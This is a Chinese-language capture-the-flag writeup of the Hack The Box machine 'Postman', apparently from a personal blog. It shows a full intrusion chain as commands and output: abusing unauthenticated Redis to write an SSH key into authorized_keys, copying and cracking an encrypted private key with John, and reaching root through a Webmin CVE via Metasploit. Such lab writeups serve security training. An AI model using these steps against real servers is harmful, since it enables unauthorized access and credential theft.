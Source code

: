 ```yaml
---
layout: post
title: "[writeup] HTB Postman"
date: 2020-03-15 00:00:00 +0800
author: xiangxiang
categories: HTB writeup
tags: [htb hackthebox writup postman webmin redis CVE]
---
```


 ![](/img/htb-postman-info.JPG){:width="512px"}

## 0x00 信息收集
- 只有ip信息，第一步当然是先扫一下的
{% highlight bash %}
~ # nmap -p- -Pn -vv 10.10.10.160
...
Discovered open port 80/tcp on 10.10.10.160
Discovered open port 22/tcp on 10.10.10.160
Discovered open port 6379/tcp on 10.10.10.160
Discovered open port 10000/tcp on 10.10.10.160
...
{% endhighlight %}

- Web at port 80
    + 一个建设中的网站，dirbuster扫描只发现了几个目录
    + 并没有发现有意思的内容
{% highlight bash %}
/upload
/images
{% endhighlight %}

- Web at port 10000
    + https://10.10.10.160:10000/ 
    + Webmin，需要密码登录

    ![](/img/htb-postman-webmin.JPG)

- Redis at port 6379
    + Redis没有密码的认证保护
    + Redis的默认配置情况
{% highlight bash %}
root@kali:~# redis-cli -h 10.10.10.160 -p 6379 ping
PONG
root@kali:~#
root@kali:~# redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG GET *
  1) "dbfilename"
  2) "authorized_keys"
  3) "requirepass"
  4) ""
...
165) "dir"
166) "/var/lib/redis/.ssh"
...
(0.54s)
10.10.10.160:6379>
{% endhighlight %}


## 0x01 Redis SSH exploit
- Redis未认证的情况下有多种漏洞利用的方式，大类可以分为这么几种
    1. 直接利用Redis去写文件： 具体的利用方式有写webshell，ssh key，写计划任务等 [参考链接](http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html)
    2. 利用Master-Slave的`FULLRESYNC`写一个可执行二进制文件并使用`MODULE LOAD`执行: [参考链接](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

- 重置一下Postman的机器可以确认Redis的`dir`和`dbfilename`默认配置就是ssh，可能是机器的创建者给的hint

- 利用Redis写ssh key的时候由于会有其他参与者，需要注意清理环境
{% highlight bash %}
root@kali:~# redis-cli -h 10.10.10.160
10.10.10.160:6379> SLAVEOF NO ONE 
OK
10.10.10.160:6379> CONFIG SET dir "/var/lib/redis/.ssh"
OK
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
OK
10.10.10.160:6379> KEYS * # make sure it is empty
(empty list or set)
10.10.10.160:6379> FLUSHALL
OK
{% endhighlight %}

- 本地生成ssh key
{% highlight bash %}
root@kali:~/Desktop/Postman# ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): ./postman_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./postman_rsa.
Your public key has been saved in ./postman_rsa.pub.
The key fingerprint is:
SHA256:OqJj2doQ+xjcE7zlyByq+cfmYeFLXt9dK16Q/XdfVcs root@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|                 |
|                .|
|   .         o. o|
|  . = . S   o .E.|
| . O O .     . ..|
|  *+& =       o =|
| o+@=* o . ..o .=|
|oo=**   . ..o.. .|
+----[SHA256]-----+
{% endhighlight %}

- 写入Redis
{% highlight bash %}
root@kali:~/Desktop/Postman# (echo -e "\n\n"; cat postman_rsa.pub; echo -e "\n\n") > temp.txt
root@kali:~/Desktop/Postman# cat temp.txt | redis-cli -h 10.10.10.160 -x set dummy1
OK
{% endhighlight %}

- ssh to redis@10.10.10.160
{% highlight bash %}
root@kali:~/Desktop/Postman# ssh -i postman_rsa redis@10.10.10.160
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Nov 28 09:23:36 2019 from 10.10.14.188
redis@Postman:~$ id
uid=107(redis) gid=114(redis) groups=114(redis)
{% endhighlight %}

- persist ssh key
    + 由于同时的使用者很多，authorized_keys文件一直被改，所以得想想办法使得ssh链接稳定一些
    + `/etc/ssh/sshd_config`中发现把key写到`authorized_keys2`中也可以
    + 把本地的ssh公钥复制到`/var/lib/redis/.ssh/authorized_keys2`中

## 0x02 User flag
- [LinEnum](https://github.com/rebootuser/LinEnum) 枚举实际一个有意思的备份文件
{% highlight bash %}
...
[-] Location and Permissions (if accessible) of .bak file(s):
-rwxr-xr-x 1 Matt Matt 1743 Aug 26 00:11 /opt/id_rsa.bak
...
{% endhighlight %}

- 这是一个加密过的RSA私钥，把这个文件拉到本地并使用John来破解
{% highlight bash %}
root@kali:~/Desktop/Postman# scp -i postman_rsa redis@10.10.10.160:/opt/id_rsa.bak ./
id_rsa.bak          100% 1743     2.5KB/s   00:00

root@kali:~/Desktop/Postman# cat id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----

root@kali:~/Desktop/Postman# wget https://raw.githubusercontent.com/koboi137/john/bionic/ssh2john.py
...
2019-11-28 23:38:36 (72.7 MB/s) - ‘ssh2john.py.1’ saved [7781/7781]

root@kali:~/Desktop/Postman# python ssh2john.py id_rsa.bak > id_rsa.2john

root@kali:~/Desktop/Postman# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.2john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:18 DONE (2019-11-28 23:39) 0.05446g/s 781138p/s 781138c/s 781138C/sa6_123..*7¡Vamos!
Session completed

{% endhighlight %}

- Failed SSH with id_rsa
{% highlight bash %}
root@kali:~/Desktop/Postman# chmod 700 id_rsa.bak
root@kali:~/Desktop/Postman# ssh -i id_rsa.bak Matt@10.10.10.160
Enter passphrase for key 'id_rsa.bak':
Connection closed by 10.10.10.160 port 22
{% endhighlight %}

- SSH到redis账户，su至Matt成功，获取user flag
    + Matt账户密码就是rsa私钥的密码

     ![](/img/htb-postman-userflag.jpg)

## 0x03 Root flag
- CVE-2019-12840
- 直接使用metasploit即可
 ![](/img/htb-postman-rootflag.jpg)